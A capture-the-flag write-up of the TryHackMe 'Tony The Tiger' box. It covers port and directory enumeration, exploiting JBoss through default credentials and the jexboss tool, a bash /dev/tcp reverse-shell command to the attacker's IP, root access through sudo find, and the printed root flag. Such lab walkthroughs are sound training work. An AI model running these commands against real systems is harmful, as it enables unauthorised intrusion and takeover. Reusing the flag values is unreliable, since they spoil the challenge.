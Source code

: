 ```yaml
---
title: "Tony The Tiger - THM"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2021-12-21 19:54:21 +05:30
categories: [Writeups, TryHackMe]
tags: [THM, JBoss, Java, Deserialization]
render_with_liquid: false
---
```


## Enumeration

- `nmap -Pn -p- --min-rate 2000 -sV 10.10.62.36`

```
Not shown: 65518 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
1090/tcp open  java-rmi    Java RMI
1091/tcp open  java-rmi    Java RMI
1098/tcp open  java-rmi    Java RMI
1099/tcp open  java-object Java Object Serialization
3873/tcp open  java-object Java Object Serialization
4446/tcp open  java-object Java Object Serialization
4712/tcp open  msdtc       Microsoft Distributed Transaction Coordinator (error)
4713/tcp open  pulseaudio?
5445/tcp open  smbdirect?
5455/tcp open  apc-5455?
5500/tcp open  hotline?
5501/tcp open  tcpwrapped
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
8083/tcp open  http        JBoss service httpd
```

### GoBuster

```
gobuster dir -u http://10.10.62.36/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 60 -x php,java,txt -k

=======================================================================

/images      (Status: 301) [Size: 310] [==> http://10.10.62.36/images/]
/page        (Status: 301) [Size: 308] [==> http://10.10.62.36/page/]
/categories  (Status: 301) [Size: 314] [==> http://10.10.62.36/categories/]
/posts       (Status: 301) [Size: 309] [==> http://10.10.62.36/posts/]
/css         (Status: 301) [Size: 307] [==> http://10.10.62.36/css/]
/tags        (Status: 301) [Size: 308] [==> http://10.10.62.36/tags/]
/js          (Status: 301) [Size: 306] [==> http://10.10.62.36/js/]
/fonts       (Status: 301) [Size: 309] [==> http://10.10.62.36/fonts/]
```

---

## Exploitation

- http://10.10.62.36:8080/admin-console/ 
- `admin:admin` worked and logged me in but I couldn't find a way to upload anything so I went looking for exploits.
- There is an option to upload files like WAR, EAR, RAR, JAR in the Applications section in admin console but it didn't work and I could not get a reverse shell.
- `searchsploit JBoss`
- Google: JBoss AS 6 exploit
- [JexBoss: Jboss (and Java Deserialization Vulnerabilities) verify and Exploitation Tool](https://github.com/joaomatosf/jexboss)
- `git clone https://github.com/joaomatosf/jexboss`
- Create `venv` and `pip install -r requires.txt`
- `python jexboss.py -J admin:admin -u http://10.10.62.36:8080 -r 10.10.62.36:8080 -t`
- And we get a shell as user `cmnatic`.
- To get a proper netcat shell, I tried the following command and then upgraded the shell to get a stable shell.
- `nc -lvnp 443` 
- `shell> bash -i >& /dev/tcp/10.17.2.57/443 0>&1` 

---

## Privilege Escalation

- `/home/jboss` has a file `note` with `jboss` user's password in it.
- `jboss:likeaboss`
- `su jboss => likeaboss`
- `sudo -l => /usr/bin/find`
- GTFOBins: `sudo find . -exec /bin/bash \; -quit`
- `whoami` <span class="fat-arrow">=></span> `root`

- JBoss Configuration Files Location

```
https://docs.jboss.org/jbossas/guides/installguide/r1/en/html/config-files.html
```

```
cmnatic@thm-java-deserial:~/jboss/server/default$ cat conf/props/jmx-console-users.properties
# A sample users.properties file for use with the UsersRolesLoginModule
admin=admin
cmnatic@thm-java-deserial:~/jboss/server/default$ cat conf/props/jmx-console-roles.properties
# A sample roles.properties file for use with the UsersRolesLoginModule
admin=JBossAdmin,HttpInvoker
```

- `cat /root/root.txt`

```
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

- Go to CyberChef and Base64 Decode with URL Safe option.
- `BC77AC072EE30E3760806864E234C7CF`
- `zxcvbnm123456789`

